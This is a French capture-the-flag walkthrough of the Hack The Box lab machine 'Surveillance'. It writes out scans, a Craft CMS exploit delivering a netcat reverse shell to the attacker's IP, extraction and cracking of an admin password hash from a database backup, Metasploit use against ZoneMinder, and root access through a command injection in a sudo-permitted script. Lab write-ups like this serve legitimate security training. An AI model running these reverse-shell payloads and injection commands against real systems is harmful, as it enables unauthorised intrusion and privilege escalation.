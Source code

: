   # Surveillance

	echo "10.10.11.245 surveillance.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.245 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.245 -oN nmap.txt
	feroxbuster --silent -u http://surveillance.htb
	
Scans classiques.

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)


http://surveillance.htb/admin/login => Craft CMS 4.4.14

Il y a un CVE : https://blog.calif.io/p/craftcms-rce


    python3 exploit.py http://surveillance.htb/
    > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.39 9999 >/tmp/f
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    

## Pivoting

Fichier SQL dans les backups => Hash de Matthew

    cd ~/html/craft/storage/backups
    
    python3 -m http.server 8000
    wget http://10.10.11.245:8000/surveillance--2023-10-17-202801--v4.4.14.sql.zip
    
    unzip "surveillance--2023-10-17-202801--v4.4.14.sql.zip"
    cat *.sql
    
> INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');

    hashid -m '39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec'
    
CrackStation => OK

	ssh matthew@10.10.11.245
	cat user.txt

## Élévation de privilèges

Site web interne avec ZoneMinder qui tourne sur le port 8080. Il y a un CVE qui permet de l'exécution de commandes : https://pentest-tools.com/vulnerabilities-exploits/zoneminder-snapshots-command-injection_22437
    
    ls /etc/nginx/sites-enabled/
    cat /etc/nginx/sites-enabled/zoneminder.conf
    netstat -pentula

Port forwarding : 

    ssh -L 9999:127.0.0.1:8080 matthew@10.10.11.245

Utilisation de Metasploit pour le CVE existant : 

    msfconsole
    msf6 > search zoneminder
    msf6 > use 1
    msf6 > show missing
    msf6 > set RHOST 127.0.0.1
    msf6 > set RPORT 9999
    msf6 > set LHOST 10.10.16.39
    msf6 > set targeturi /
    msf6 > set ForceExploit true
    msf6 > run
    meterpreter > shell 
    
On obtient bien un shell en tant que "zoneminder"

    python3 -c "import pty;pty.spawn('/bin/bash')"
    sudo -l 
    
> (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *

On peut retrouver le mot de passe de ce compte dans ces scripts.

Le script zmupdate.pl contient une injection de commande basique : 

    sudo /usr/bin/zmupdate.pl --version=1 --user='$(/bin/bash -i)' --pass=ZoneMinderPassword2023
    
	whoami
	cat /root/root.txt
